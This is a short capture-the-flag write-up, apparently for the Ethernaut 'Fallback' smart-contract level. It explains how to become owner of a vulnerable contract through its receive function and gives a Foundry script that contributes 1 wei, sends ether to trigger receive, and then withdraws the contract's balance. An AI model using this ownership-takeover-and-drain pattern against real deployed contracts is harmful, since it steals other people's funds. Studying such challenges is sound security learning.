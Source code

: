So I can become owner from any one of these .

1. Using constructor ❌
2. Using contribute function -> yes I can become the owner but for that I need to add more contributions than the current owner and I cannot do it once . I can only add less than 0.001 ether to our contributions at once. So to become owner I should repeat adding contributions with ether less than `0.001` untill I become owner. So it is time consuming and high cost as it needs many transcations. 
so using contribute function ❌.
1. using Receive function ? Let's see..

In receive I have require and I need to pass that to become owner. To pass this , I need contributions > 0 and msg.value > 0 . 

`receive` is called when I send ETH to the contract without any data , so I call it by sending some ETH (greater than 0) to the contract but before that  I do one contribution to the contract so that contributions will be greater than 0 . 

receive triggered -> require passed -> and I will become The OWNER . 

**Here's the Foundry script that solves the challenge**

```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "../src/Level01.sol";
import {Script , console} from "forge-std/Script.sol";

contract Level01Solution is Script{

    Fallback fallbackInstance = Fallback(payable(0x176876a12E75801Dd798B0464F040eBdF6139469)); //place Instance address  

    function run() external {
        vm.startBroadcast();

        fallbackInstance.contribute{value: 1 wei}();

        (bool success , )=address(fallbackInstance).call{value: 0.0001 ether}("");
        require(success, "Call failed");
        console.log("NewOwner: ", fallbackInstance.owner());
        console.log("my Address:", vm.envAddress("ADDRESS"));
        fallbackInstance.withdraw();

        vm.stopBroadcast();
    }

}
```


---

# #Fal1out
